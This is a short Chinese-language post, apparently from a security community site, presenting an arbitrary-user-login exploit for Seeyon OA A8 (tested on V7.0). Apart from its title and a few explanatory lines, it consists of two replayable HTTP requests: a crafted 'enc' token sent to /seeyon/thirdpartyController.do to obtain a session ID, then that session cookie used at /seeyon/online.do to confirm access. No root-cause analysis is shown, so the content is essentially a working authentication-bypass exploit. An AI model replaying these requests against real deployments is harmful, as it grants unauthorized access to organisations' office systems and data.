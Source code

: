 

# 致远 OA A8-V5 任意用户登录漏洞分析 - 先知社区

致远 OA A8-V5 任意用户登录漏洞分析

- - -

### 致远 OA A8-V5 任意用户登录漏洞分析

#### 漏洞环境

致远 A8 V7.0

#### 漏洞利用

接口 `/seeyon/thirdpartyController.do`

```plain
GET /seeyon/thirdpartyController.do?method=access&enc=TT5uZnR0YmhmL21qb2wvY2N0L3BxZm8nTj4uODM4NDE0MzEyNDM0NTg1OTI3OSdVPjo6Ojo6Ojo6Ojo6Ojo= HTTP/1.1
Host: 192.168.0.109
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/112.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Connection: close
```

可以在响应包中得到一个`JSESSIONID`，在携带`JSESSIONID` 访问`/seeyon/online.do`接口进行验证。

```plain
GET /seeyon/online.do?method=showOnlineUser HTTP/1.1
Host: 192.168.0.103
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/112.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Cookie: JSESSIONID=8C078E76C97C408221F7CD808AF28932; loginPageURL=; avatarImageUrl=-7273032013234748168
Connection: close
```
